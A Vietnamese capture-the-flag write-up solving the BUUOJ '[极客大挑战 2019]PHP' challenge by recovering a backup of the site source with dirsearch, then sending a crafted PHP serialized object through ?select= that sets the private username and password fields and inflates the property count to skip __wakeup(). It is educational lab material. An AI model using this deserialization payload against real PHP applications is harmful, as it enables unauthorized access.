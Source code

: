 # [极客大挑战 2019]PHP

[Link](https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019]PHP)

Đầu tiên, khi mình boot instance và truy cập vào challenge, mình cảm thấy rất bất ngờ với giao diện của trang web. Mình nghĩ rằng author rất giỏi với giao diện thú vị và vui nhộn như thế.
![1](https://user-images.githubusercontent.com/95614411/173055220-97ee6bb8-4e31-43d2-bb53-170f542d6917.PNG)

Vì author đã gợi ý là họ thường xuyên sao lưu dữ liệu trang web, nhưng vì mình không tìm được manh mối nào khi đọc source HTML, nên mình quyết định dùng Dirsearch để tìm.

`python3 dirsearch.py -u http://089e324c-b9d5-4267-a1b6-5a5e6c644bdf.node4.buuoj.cn:81/ -e php`

Và mình phát hiện ra được một link thú vị, có thể down về source code của web.

![2](https://user-images.githubusercontent.com/95614411/173055306-2f4b161c-b5c0-40cb-9f2c-c816f5e6cc13.PNG)

![3](https://user-images.githubusercontent.com/95614411/173055353-f97a15fe-66ad-42f5-a8c4-4d1105c84a4d.PNG)


ở file class.php:
```
<?php
include 'flag.php';


error_reporting(0);


class Name{
    private $username = 'nonono';
    private $password = 'yesyes';

    public function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }

    function __wakeup(){
        $this->username = 'guest';
    }

    function __destruct(){
        if ($this->password != 100) {
            echo "</br>NO!!!hacker!!!</br>";
            echo "You name is: ";
            echo $this->username;echo "</br>";
            echo "You password is: ";
            echo $this->password;echo "</br>";
            die();
        }
        if ($this->username === 'admin') {
            global $flag;
            echo $flag;
        }else{
            echo "</br>hello my friend~~</br>sorry i can't give you the flag!";
            die();

            
        }
    }
}
?>
```

điều đầu tiên mình đập vào mắt mình là: 


![image](https://user-images.githubusercontent.com/95614411/173054943-b8052b7b-d389-4068-97a6-79a2ea9686bb.png)

Ở đây, mình xác nhận được, để nhận được flag thì mình phải đăng nhập vào được quyền admin với:
> Username: admin
> 
> Password: 100

Và bây giờ, mình đối mặt với 2 vấn đề: 
- Làm sao để đưa lên server username và password?
- làm sao để đưa vào khi username, password đều nằm trong 1 class?

Mình tiếp tục mở file index.php lên và thấy:

![image](https://user-images.githubusercontent.com/95614411/173056586-1a476fa6-46bc-4c6a-b0c3-0b1fbf2ad4b9.png)

Vậy là mình có thể đưa vào với query string `?select=`

Kế tiếp, mình nhớ là đã xem trên kênh Cyber Jutsu về ý tưởng đưa một ojbect qua query string, nhưng và mình phải tìm cách vượt qua function __wakeup() 

![image](https://user-images.githubusercontent.com/95614411/173057145-80e07ba6-e84e-4554-92ce-41ba85f27968.png)

Mình đã biến tấu một chút ở code và dùng hàm `serialize()` để xem mã hóa của code khi mình tạo một object như bên dưới:

![image](https://user-images.githubusercontent.com/95614411/173057544-d4b9face-7546-4dea-8510-82ac60d0e8aa.png)

Và khi chạy trên localhost thì mình được:

![image](https://user-images.githubusercontent.com/95614411/173057621-60728caf-572a-4881-8841-240793d9a3ba.png)


Payload ban đầu của mình: 

`?select=O:4:"Name":2:{s:14:"%00Name%00username";s:5:"admin";s:14:"%00Name%00password";i:100;}`
- ở đây, vì hai biến `username` và `password` mang thuộc tính private, nên mình dùng `%00` điền vào trước chuỗi để khi truy xuất vào được đầy đủ.
 
Và để vượt qua function `__wakeup()` thì mình đã thay đổi một chút:

`?select=O:4:"Name":3:{s:14:"%00Name%00username";s:5:"admin";s:14:"%00Name%00password";i:100;}`

Và kết quả:

![image](https://user-images.githubusercontent.com/95614411/173059398-29fc5a8e-43c9-47a6-be28-35ce755c04a5.png)


### Thanks for reading!


>Note: Đây là lỗi thuộc dạng PHP Deserialization

Tham khảo thêm [tại đây](https://viblo.asia/p/khai-thac-php-deserialization-07LKXbLPlV4)
